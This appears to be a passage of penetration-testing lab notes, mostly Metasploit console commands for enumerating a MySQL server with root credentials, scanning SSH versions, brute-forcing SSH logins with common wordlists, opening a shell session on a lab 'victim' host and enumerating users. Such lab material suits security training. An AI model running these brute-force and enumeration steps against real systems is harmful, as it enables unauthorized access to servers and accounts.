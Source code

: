 ```
msf5> use auxiliary/admin/mysql/mysql_enum
msf5> setg username root
msf5> setg password twinkle
```

```
msf5> use auxiliary/admin/mysql/mysql_sql
msf5> set sql 'show database;'
msf5> run
```

```
msf5> use auxiliary/scanner/mysql/mysql_schemadump
msf5> run
```

### SSH enumeration

* SSH (Secure Shell) is a remote administration protocol that offers enryption and is the successor to Telnet.
* It is typically used for remote access to servers and systems.
* SSH uses TCP port 22 by default, however, like other services, it can be configured to use any other open TCP port.
* We can utilize auxiliary modules to enumerate the version of SSH running on the target as well as perform brute-force attacks to identify passwords that can consequently provide us access to a target.

```
root@attackdefense> service postgresql start && msfconsole
msf5> workspace -a ssh_enum
msf5> setg rhosts 192.145.151.3
msf5> search type:auxiliary name:ssh
msf5> use auxiliary/scanner/ssh/ssh_version
msf5> run
```

```
msf5> use auxiliary/scanner/ssh/ssh_login
msf5> set user_file /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5> set pass_file /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
msf5> run

Ctrl+c

msf5> sessions 1
/bin/bash -i
sysadmin@victim-1> id
```

```
msf5> use auxiliary/scanner/ssh/ssh_enumusers
msf5> set user_file /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5> run
```
